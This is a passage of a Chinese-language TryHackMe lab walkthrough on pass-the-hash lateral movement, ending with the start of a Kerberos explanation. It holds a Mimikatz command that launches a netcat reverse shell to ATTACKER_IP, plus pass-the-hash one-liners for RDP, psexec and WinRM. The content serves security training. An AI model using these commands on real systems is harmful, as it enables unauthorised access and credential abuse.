 然后，我们可以使用提取的哈希值通过 Mimikatz 进行 “传递哈希”（PtH）攻击，将一个受害用户的访问令牌注入到一个反向 Shell（或其他您喜欢的命令）中，具体操作如下：

```shell
mimikatz # token::revert
mimikatz # sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"
```

请注意，我们使用了 `token::revert` 来恢复我们的原始令牌特权，因为尝试使用提升的令牌进行传递哈希是行不通的。

这相当于使用 `runas /netonly` ，但是使用哈希值而不是密码，并将生成一个新的反向 Shell，从中我们可以作为受害用户启动任何命令。

要接收反向 Shell，我们应该在我们的攻击盒上运行一个反向监听器：

```shell title="AttackBox"
user@AttackBox$ nc -lvp 5555
```

有趣的是，如果在这个 Shell 上运行 whoami 命令，它仍然会显示你在执行 PtH 之前使用的原始用户，但是从这里运行的任何命令实际上都会使用我们使用 PtH 注入的凭据。

#### 使用 Linux 来进行哈希传递攻击

如果您可以访问 Linux 主机（比如您的 AttackBox），有几种工具内置支持使用不同协议执行 PtH。根据您可用的服务，您可以执行以下操作：

使用 PtH 连接到 RDP：

```shell
xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
```

使用 PtH 通过 psexec 连接：

```shell
psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP
```

:::tip

只有 Linux 版本的 psexec 支持 PtH。

:::

使用 PtH 连接到 WinRM：

```shell
evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH
```

### Kerberos Authentication

让我们简要了解一下 Windows 网络中 Kerberos 身份验证的工作原理：

1. 用户发送他的用户名和使用从他密码派生的密钥加密的时间戳到密钥分发中心（KDC）。KDC 通常安装在负责在网络上创建 Kerberos 票据的域控制器上。

    KDC 将创建并发送一个票据授予票据（TGT），允许用户请求访问特定服务的票据，而无需将其凭据传递给服务本身。除了 TGT 之外，还会给用户一个会话密钥，他们需要使用它来生成随后的请求。

    注意 TGT 是使用 krbtgt 账户的密码哈希进行加密的，因此用户无法访问其内容。重要的是要知道，加密的 TGT 包括会话密钥的副本作为其内容的一部分，KDC 无需存储会话密钥，因为在需要时可以通过解密 TGT 来恢复一个副本。

    <div style={{textAlign:'center'}}>
